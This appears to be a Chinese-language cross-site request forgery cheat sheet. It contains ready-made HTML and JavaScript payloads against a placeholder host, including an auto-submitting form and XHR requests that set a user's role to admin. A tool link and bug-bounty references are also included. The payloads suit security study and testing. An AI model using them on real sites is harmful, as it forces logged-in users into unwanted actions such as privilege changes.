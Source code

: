 # 跨站请求伪造

> 跨站请求伪造 (CSRF/XSRF) 是一种攻击可以使最终用户在当前已经通过身份验证的Web应用程序上执行不需要的操作. CSRF 攻击主要是针对更改状态的请求而不是去窃取数据, 攻击者无法看到攻击后的响应. - OWASP


## Summary

* [Methodology](#methodology)
* [Payloads](#payloads)
	* [HTML GET - Requiring User Interaction](#)
	* [HTML GET - No User Interaction)](#)
	* [HTML POST - Requiring User Interaction](#)
	* [HTML POST - AutoSubmit - No User Interaction](#)
	* [JSON GET - Simple Request](#)
	* [JSON POST - Simple Request](#)
	* [JSON POST - Complex Request](#)

## Tools

* [XSRFProbe - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.](https://github.com/0xInfection/XSRFProbe)

## Methodology

![CSRF_cheatsheet](./images/CSRF-CheatSheet.png)

## Payloads

当你登陆到某个站点时，通常会有一个会话。该会话的标识符存储在浏览器的cookie里面，并且随每个请求一起发送到该站点。 即使其他站点触发了请求，该cookie也会与该请求一起发送，并且该请求的处理方式就像已登录的用户执行了该请求一样。

### HTML GET - Requiring User Interaction

GET请求需要用户交互

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```

### HTML GET - No User Interaction

GET请求不需要用户交互

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

### HTML POST - Requiring User Interaction

POST请求需要用户交互

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```

### HTML POST - AutoSubmit - No User Interaction

POST请求 - 自动提交 - 不需要用户交互

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

### JSON GET - Simple Request

JSON GET请求 简单的请求

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

### JSON POST - Simple Request

JSON POST请求 简单的请求

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

### JSON POST - Complex Request

JSON GET请求 复杂的请求

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```


## References

- [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
- [Cross-Site Request Forgery (CSRF) - OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
- [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton](https://whitton.io/articles/messenger-site-wide-csrf/) 
- [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial](https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
- [Hacking PayPal Accounts with one click (Patched) - Yasser Ali](http://yasserali.com/hacking-paypal-accounts-with-one-click/)
- [Add tweet to collection CSRF - vijay kumar](https://hackerone.com/reports/100820)
- [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
- [How i Hacked your Beats account ? Apple Bug Bounty - @aaditya_purani](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
- [FORM POST JSON: JSON CSRF on POST Heartbeats API - Dr.Jones](https://hackerone.com/reports/245346)
- [Hacking Facebook accounts using CSRF in Oculus-Facebook integration](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
- [Cross site request forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
- [Cross-Site Request Forgery Attack - PwnFunction](https://www.youtube.com/watch?v=eWEgUcHPle0)
- [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](#https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)